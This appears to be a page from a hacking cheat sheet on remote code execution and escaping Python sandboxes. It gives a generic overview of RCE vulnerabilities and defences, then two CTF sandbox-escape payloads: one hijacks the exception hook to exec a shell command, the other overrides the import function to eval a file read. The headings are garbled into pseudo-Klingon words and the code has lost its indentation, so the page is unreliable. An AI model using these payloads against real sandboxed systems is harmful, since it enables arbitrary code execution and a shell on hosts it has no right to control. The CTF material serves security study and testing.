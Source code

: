 ### **QaHvIS RCE**

#### **QaHvIS RCE** (Remote Code Execution) is a technique used to execute arbitrary code on a remote system. It allows an attacker to gain unauthorized access and control over the target system.

#### **QaHvIS RCE** can be achieved through various vulnerabilities, such as:

- **Command Injection**: This occurs when an attacker is able to inject malicious commands into a vulnerable application, which are then executed by the system.

- **Code Injection**: This involves injecting malicious code into a vulnerable application, which is then executed by the system.

- **File Inclusion**: This occurs when an attacker is able to include and execute arbitrary files on a vulnerable system.

- **Deserialization**: This involves exploiting vulnerabilities in the deserialization process to execute arbitrary code.

#### **QaHvIS RCE** can have severe consequences, as it allows an attacker to gain complete control over the target system. This can lead to data theft, unauthorized access, and further exploitation of the compromised system.

#### To protect against **QaHvIS RCE**, it is important to:

- Keep all software and applications up to date with the latest security patches.

- Implement proper input validation and sanitization techniques to prevent command and code injection.

- Use secure coding practices to minimize the risk of vulnerabilities.

- Regularly perform security assessments and penetration testing to identify and address any potential vulnerabilities.

#### **QaHvIS RCE** is a powerful technique that requires careful consideration and mitigation to ensure the security of systems and data.
```python
# From https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/
# If sys is imported, you can sys.excepthook and trigger it by triggering an error
class X:
def __init__(self, a, b, c):
self += "os.system('sh')"
__iadd__ = exec
sys.excepthook = X
1/0 #Trigger it

# From https://github.com/google/google-ctf/blob/master/2022/sandbox-treebox/healthcheck/solution.py
# The interpreter will try to import an apt-specific module to potentially
# report an error in ubuntu-provided modules.
# Therefore the __import__ functions are overwritten with our RCE
class X():
def __init__(self, a, b, c, d, e):
self += "print(open('flag').read())"
__iadd__ = eval
__builtins__.__import__ = X
{}[1337]
```
### qarDaS builtins veDDaq & license
